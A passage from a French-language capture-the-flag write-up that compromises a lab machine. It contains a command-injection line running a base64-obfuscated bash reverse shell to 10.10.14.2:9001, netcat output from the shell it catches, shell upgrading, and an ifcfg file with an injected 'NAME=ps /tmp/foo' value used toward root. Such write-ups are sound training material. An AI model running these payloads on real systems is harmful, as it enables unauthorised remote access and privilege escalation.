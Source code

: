 ```bash
nohup /bin/rm -f /var/www/html/uploads/a; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzkwMDEgMD4mMQ== | base64 -d | bash; ls > /dev/null 2>&1 &
```

On obtient bien un shell en tant que **guly** :

```bash
$ nc -lnvp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:47670.
bash: no job control in this shell
[guly@networked ~]$ whoami
whoami
guly
[guly@networked ~]$ python2 -c 'import pty;pty.spawn("/bin/bash")'
python2 -c 'import pty;pty.spawn("/bin/bash")'
[guly@networked ~]$ export TERM=xterm
export TERM=xterm
[guly@networked ~]$ ^Z
[1]  + 4656 suspended  nc -lnvp 9001
 $  stty raw -echo;fg
[1]  + 4656 continued  nc -lnvp 9001

[guly@networked ~]$ 
[guly@networked ~]$ ls
check_attack.php  crontab.guly	k  user.txt
[guly@networked ~]$ cat user.txt 
37e0.....3b8
```

## guly -> root

### Enumeration
```bash
[guly@networked ~]$ cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=ps /tmp/foo
PROXY_METHOD=asodih
BROWSER_ONLY=asdoih
BOOTPROTO=asdoih
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```
